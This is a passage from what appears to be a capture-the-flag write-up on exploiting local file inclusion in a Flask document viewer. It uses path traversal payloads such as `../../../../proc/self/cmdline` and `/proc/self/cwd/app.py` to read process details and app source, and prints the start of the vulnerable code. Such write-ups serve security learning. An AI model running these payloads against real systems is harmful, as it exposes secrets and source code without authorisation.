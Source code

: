HOME=/root, running as root.

Tried `/archive?page=../../../../proc/self/cmdline`

<img width="640" height="146" alt="image" src="https://github.com/user-attachments/assets/748aaf72-b73c-4c29-af47-0a7294143e35" />

Showed: `/usr/local/bin/python/app.py` - the app entrypoint.

`/proc` is a goldmine: environ shows env vars (sometimes FLAG=...), cmdline reveals how the app was launched.

4. Current Working Directory Enumeration

`/archive?page=../../../../proc/self/cwd/` - follow CWD symlink to app root.

Checked `/proc/self/cwd/app.py`

<img width="620" height="988" alt="image" src="https://github.com/user-attachments/assets/d6d810aa-7980-4ae8-ae92-98caf3abda02" />

LFI can use /proc/self/cwd/ to read files relative to the app’s actual working directory, bypassing path guesswork.

5. Reading Source Code

LFI can use /proc/self/cwd/ to read files relative to the app’s actual working directory, bypassing path guesswork.

Code snippet showed:

```
from flask import Flask, request, render_template, abort
import os
import time

app = Flask(__name__)

BASE_DOCUMENT_PATH = 'documents'


@app.before_request
def slow_down_all_requests():
    time.sleep(0.2)


@app.route('/')
def index():
    return render_template('index.html')

@app.route('/archive')
def archive():
    file_name = request.args.get('page')

    if not file_name:
        return """
        
Archive Document Viewer

        
To view a document, use the ?page=file_name.txt parameter.


        
For example: /archive?page=manuscript1.txt


        """, 400

    try:
```